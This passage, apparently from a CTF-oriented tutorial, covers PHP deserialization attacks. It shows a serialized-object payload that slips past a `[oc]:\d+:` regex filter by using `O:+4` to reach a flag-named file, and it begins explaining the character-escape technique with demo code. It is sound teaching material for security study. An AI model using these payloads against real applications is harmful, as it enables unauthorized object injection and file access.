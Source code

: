 ```php
preg_match('/[oc]:\d+:/i', $var)

O:4:"Demo":1:{s:10:"Demofile";s:16:"f15g_1s_here.php";}
O:+4:"Demo":1:{s:10:"Demofile";s:16:"f15g_1s_here.php";}

unserialize('a:1:{i:0;O:4:"test":1:{s:1:"a";s:3:"abc";}}');
```
## Character escape

When deserializing PHP, the underlying code is separated by ; as the field, ending with } (except strings), and the content is judged based on the length. At the same time, the deserialization process must strictly follow the serialization rules to successfully implement deserialization. When the length of the serialization does not correspond, an error will occur.
The essence of character escape is actually closed, but it is divided into two situations: one is that more characters become more, and the other is that fewer characters become less.

### Increase characters
- Normal

```php
<?php
function up($str){
    return str_replace("x","xx",$str);
}
class D1no{
    public $name = 'H3rmesk1t';
    public $way = 'Web_Crypto_Misc';
}

echo serialize(new D1no())."\n";
echo "Before filtering","\n";
$c = unserialize((serialize(new D1no())));
print_r($c)."\n";
echo "Filtered"."\n";
$c = unserialize(up(serialize(new D1no())));
print_r($c);
?>
=>
O:4:"D1no":2:{s:4:"name";s:9:"H3rmesk1t";s:3:"way";s:15:"Web_Crypto_Misc";}
Before filtering
D1no Object
(
    [name] =H3rmesk1t
    [way] =Web_Crypto_Misc
)
After filtering
D1no Object
(
    [name] =H3rmesk1t
    [way] =Web_Crypto_Misc
)
```
